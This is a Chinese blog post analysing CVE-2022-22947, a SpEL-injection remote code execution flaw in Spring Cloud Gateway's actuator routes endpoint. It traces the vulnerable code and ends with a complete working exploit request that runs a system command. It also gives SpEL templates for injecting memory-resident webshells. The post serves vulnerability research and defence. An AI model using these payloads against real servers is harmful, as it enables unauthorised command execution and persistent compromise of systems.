# spring cloud gateway rce(CVE-2022-22947)分析 - sijidou - 博客园

> 原文：[`www.cnblogs.com/sijidou/p/16616162.html`](https://www.cnblogs.com/sijidou/p/16616162.html)

### 环境搭建

[`github.com/spring-cloud/spring-cloud-gateway/releases/tag/v3.0.6`](https://github.com/spring-cloud/spring-cloud-gateway/releases/tag/v3.0.6)



### 漏洞分析

该漏洞造成原因是因为配置可写+SPEL 表达式的解析导致的

SpEL 表达式的触发方式有 3 种，xml，注释，直接传参。这里基本不可能是将恶意 poc 传到注释中，或者写入到 xml 中，所以触发方式应该是将输入 poc 当做某个函数的参数传入其中的，而 SpEL 表达式的解析的方法为`SpelExpressionParser.parseExpression()`函数



全局检索这个危险函数



初步定位到`org/springframework/cloud/gateway/support/ShortcutConfigurable.java`中的 49 行函数，此处的的`entryValue`为传入执行参数，因此需要追踪该参数的传入路径。



往上跟踪会发现在其自定义的，`normalize()`函数中会传从 args 中取出值放入到`getValue()`函数中


继续跟踪发现值从 this.properties 参数传入


打上断点，使用 refresh 的会将 poc 执行触发漏洞，查看堆栈信息


刚开始的入口为`org/springframework/cloud/gateway/actuate/AbstractGatewayControllerEndpoint.java`的 refresh controller 控制器，进入逻辑


接下来就是定位参数值从哪里获取了，因为是分析 1day 漏洞，知道 poc 怎么写，大致清楚是从 route 的配置信息中获取的，这里的值也是从`org/springframework/cloud/gateway/support/ConfigurationService.java`的`this.properties`中获取的，查看该成员变量的赋值情况



查看传入处，可以定位到 definition 变量，这个变量是从 filter 中获取的值，通过 for 循环一个个的往 properties 中传



因为该漏洞是多步触发，这个 filter 的属性一定是以内存，文本，数据库之一的形式暂存的，此次的 debug 跟踪只能找到读取来源，可以看到从 gatewayproperties 中获取



接下来看看最先传入的逻辑，也就是 post 路由



跟进设置处的代码，仅检测 url 中的路由中的 id 是否为空，并且会将 id 设置为 route，其他内容可以自由发挥


尝试发送空的 json 的数据包，符合格式，但可以从 log 中看到包含的参数有 predicates，filters，url，order，metadata



将数据包发过去并 refresh，发现报错，报错内容中最后出错处提示需要 uri 参数

注意: 这时候需要将其路由使用 delete 删除，不然后面的所有 refresh 都会报错，也就是说之前的 poc 如果有错误，需要 delete，不然后续即使写到其他路由也会在 refresh 执行时报错



带上 uri 参数，就没报错了，并且成功回显了


再次跟踪 refresh 执行 SpEL 表达式的逻辑，带上 filter 参数，成功执行命令



再次请求可以返回命令信息，所以必要参数是 uri，而网上公布的 poc 中的 id 参数并不是必要的


至于传入 poc 的参数为 filters，debug 调试，查看调用处逻辑，在此处传入的合法字段有 predicates，filters，uri，metadata，order

这里面的 filters 和 predicates 为数组，uri 为 uri 类型并且已经被处理过，无法注入恶意 poc，注入恶意 poc 也会报错，而 predicates 不会走到 SpEL 表达式逻辑。



而 filters 中的 name 值也有一定的要求，必须是在以下类中的名称，非这个类的方法名称测会在 post 时候会进行报错

`org/springframework/cloud/gateway/route/builder/GatewayFilterSpec.java`



整理如下，均会执行 SpEL 的表达式

```
能回显
AddRequestHeader
AddRequestParameter
AddResponseHeader
SetRequestHeader
SetResponseHeader

不能回显
DedupeResponseHeader
MapRequestHeader
ModifyRequestBody
ModifyResponseBody
PreserveHostHeader
PrefixPath
RemoveRequestHeader
RemoveRequestParameter
RemoveResponseHeader
SecureHeaders
RewriteResponseHeader
RewriteLocationResponseHeader
SetStatus
SaveSession
StripPrefix
RequestHeaderToRequestUri 
```

最终 poc 如下

```
POST /actuator/gateway/routes/a HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Content-Type: application/json
Content-Length: 267

{
"uri":"lb://httpbin",
"filters":[{
	"name":"SetResponseHeader",
	"args":{
		"name":"a",
		"value":"#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
	}
}
]
} 
```

### 注入内存马的上下文信息可以参考

[`mp.weixin.qq.com/s/S15erJhHQ4WCVfF0XxDYMg`](https://mp.weixin.qq.com/s/S15erJhHQ4WCVfF0XxDYMg)

[`blog.wanghw.cn/tech-share/cve-2022-22947-inject-godzilla-memshell.html`](https://blog.wanghw.cn/tech-share/cve-2022-22947-inject-godzilla-memshell.html)

内存马分为 2 个层级一个是 netty 中间件级的内存马，一个是 spring 框架层的内存马，加载机制无非是通过 classloader 去加载 base64 解码后的字节码，然后进行运行注入到内存中

```
//netty
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('MemClassName',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAADQAjgoABgBL...'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}

//spring
#{T(org.springframework.cglib.core.ReflectUtils).defineClass('MemClassName',T(org.springframework.util.Base64Utils).decodeFromString('yv66vgAAADQAjgoABgBL...'),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping)} 
```

输出成脚本工具

[`github.com/SiJiDo/CVE-2022-22947`](https://github.com/SiJiDo/CVE-2022-22947)